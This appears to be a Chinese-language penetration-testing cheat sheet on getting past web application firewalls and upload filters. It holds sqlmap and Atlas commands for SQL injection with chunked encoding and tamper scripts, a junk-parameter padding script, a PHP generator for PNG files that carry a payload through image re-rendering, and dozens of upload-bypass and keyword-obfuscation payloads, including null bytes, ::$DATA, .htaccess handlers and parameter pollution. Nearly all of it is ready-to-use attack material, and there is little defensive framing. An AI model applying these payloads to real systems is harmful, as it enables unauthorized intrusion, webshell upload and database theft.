  #### SQL注入分块传输
	https://github.com/c0ny1/chunked-coding-converter
![image](/assets/Pentest_Note/master/img/25.png)
![image](/assets/Pentest_Note/master/img/26.png)

	跑注入点被拦截
![image](/assets/Pentest_Note/master/img/27.png)

	使用分块传输，右键选择
![image](/assets/Pentest_Note/master/img/28.png)
![image](/assets/Pentest_Note/master/img/30.png)

	使用SQLMAP跑注入
![image](/assets/Pentest_Note/master/img/31.png)
![image](/assets/Pentest_Note/master/img/32.png)

	>python sqlmap.py -r 1.txt --batch --proxy=http://127.0.0.1:8080 --dbs
![image](/assets/Pentest_Note/master/img/33.png)
 #### 自动提供可用的tamper
	https://github.com/m4ll0k/Atlas
	GET类型的注入
	python atlas.py --url http://site.com/index/id/%%10%% --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
	POST类型的注入
	python atlas.py --url http://site.com/index/id/ -m POST -D 'test=%%10%%' --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
	请求头注入
	python atlas.py --url http://site.com/index/id/ -H 'User-Agent: mozilla/5.0%%inject%%' -H 'X-header: test' --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
	组合tamper
	python atlas.py --url http://site.com/index/id/%%10%% --payload="-1234 AND 4321=4321-- AAAA" --concat "equaltolike,htmlencode" --random-agent -v
	列出tamper
	python atlas.py -g
	例子
	注入
	python sqlmap.py -u 'http://site.com/index.php?id=Price_ASC' --dbs --random-agent -v 3
![image](/assets/Pentest_Note/master/img/658.png)

	可以看到被拦截了
	查找能绕过的tamper
	python atlas.py --url 'http://site.com/index.php?id=Price_ASC' --payload="') AND 8716=4837 AND ('yajr'='yajr" --random-agent -v
![image](/assets/Pentest_Note/master/img/659.png)

	根据返回码200得到一个可绕过waf的tamper
	versionedkeywords这个tamper
	继续注入
	python sqlmap.py -u 'http://site.com/index.php?id=Price_ASC' --dbs --random-agent -v 3 --tamper=versionedkeywords
	根据状态码来判断有时会有点鸡肋，但是也能用用，随机发挥吧。
 #### 垃圾数据
	#coding=utf-8
	import random,string
	from urllib import parse
	# code by yzddMr6
	varname_min = 5
	varname_max = 15
	data_min = 20
	data_max = 25
	num_min = 50
	num_max = 100
	def randstr(length):
		str_list = [random.choice(string.ascii_letters) for i in range(length)]
		random_str = ''.join(str_list)
		return random_str
	def main():
		data={}
		for i in range(num_min,num_max):
			data[randstr(random.randint(varname_min,varname_max))]=randstr(random.randint(data_min,data_max))
		print('&'+parse.urlencode(data)+'&')
	main()
	放到要注入的字段前后
 #### 上传bypass
    	图片文件头
	PNG 的文件头为十六进制的 89 50 4E 47 0D 0A 1A 0A
	GIF 为 47 49 46 38 37 61
	JPG 为 FF D8 FF E0
    	添加图片头或合并图片包含
    	后缀大小写
    	文件名前缀加[0x09]
    	上传.htaccess
		SetHandler application/x-httpd-php
    	二次渲染
		GIF
		找好一个大一点的GIF，尾部使用c32插入shell，上传，下载回来，使用burp的comparer功能找出整个文件没有被渲染的位置，插入shell再上传
		JPG
		使用脚本直接生成
		https://github.com/BlackFan/jpg_payload
		PNG
		使用脚本直接生成
		先取消php.ini注释;extension=php_gd2.dll
```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
0x66, 0x44, 0x50, 0x33);
$img = imagecreatetruecolor(32, 32);
for ($y = 0; $y < sizeof($p); $y += 3) {
	$r = $p[$y];
	$g = $p[$y+1];
	$b = $p[$y+2];
	$color = imagecolorallocate($img, $r, $g, $b);
	imagesetpixel($img, round($y / 3), 0, $color);
}
imagepng($img,'./1.png');
?>
```
    	上传php3,php4,phtml等
    	文件名后加::$DATA
	ConTent-Disposition: form-data; name="filepath"; filename="1.asp::$DATA"
	ConTent-Disposition: form-data; name="filepath"; filename="1.asp::$DATA\0x00\1.asp0x00.jpg"
    	asp . (空格+.)
    	php. .(点+空格+点)
    	双写phphpp
    	00截断
	Get参数00截断直接添加%00
	POST参数00截断修改hex为00
    	修改一些固定的参数
    	文件名去掉双引号
    	加一个filename1的参数
    	form变量改成f+orm
    	去掉form-data
    	在Content-Disposition或form-data;后添加多个空格
    	引号回车
	ConTent-Disposition: form-data; name="filepath"; filename="backlion.asp
	"
    	Content-Type和ConTent-Disposition调换位置
    	文件名前缀加空格
	filename=    "1.asp"
    	name前加空格
	Content-Disposition: form-data;      name="uploaded"; filename="1.asp"
    	form-data的前后加上+
	Content-Disposition: +form-data; name="filepath"; filename="1.asp"
    	* ASP+IIS
	s%elect>select
	s%u0065lect>select  
	s%u00f0lect>select
	s%u0045lect = s%u0065lect = %u00f0lect
	u -->%u0055 --> %u0075
	n -->%u004e --> %u006e
	i -->%u0049 --> %u0069
	o -->%u004f --> %u006f -->%u00ba
	s -->%u0053 --> %u0073
	l -->%u004c --> %u006c
	e -->%u0045 --> %u0065-->%u00f0
	c -->%u0043 --> %u0063
	t -->%u0054 -->%u0074 -->%u00de -->%u00fe
	f -->%u0046 -->%u0066
	r -->%u0052 -->%u0072
	m -->%u004d -->%u006d
    	Asp+iis&aspx+iis
	s%u006c%u0006ect>select
    	* apache
	TEST /sql.php?id=1 HTTP/1.1
    	* 大小写/关键字
	UniOn SeLECT
	Mid()substring() ? substr()
	Hex()?ascii()
	sleep() =benchmark()
	concat_ws()=group_concat()
    	双重url编码
    	变换请求方式
    	HPP参数污染
	id=1&id=2&id=3
	得到的结果：Asp.net + iis：id=1,2,3 
	Asp+iis：id=1,2,3 
	Php+apache：id=3
	MSSQL:
	GET+POST: 
	GET:http://192.168.125.140/test/sql.aspx?id=1 union/*
	post:  id=2*/select null,null,null
	无逗号形式：
	?id=1 union select 1&id=2&id=3&id=4 from admin--（）  
	利用逗号：
	?a=1+union/*&b=*/select+1,pass/*&c=*/from+users--
	无效参数形式：
	?a=/*&sql=xxx&b=*/  a,b为无效参数
	溢出形式：?id=1/*&id=*//*&id=*//*......&id=*//*&id=*/ union  select null,system_user,null from INFORMATION_SCHEMA.schemata
	MYSQL：
	?id=1&id=1&id=1&id=1&id=1&id=1&id=1&id=….. &id=1 union select 1,2 from admin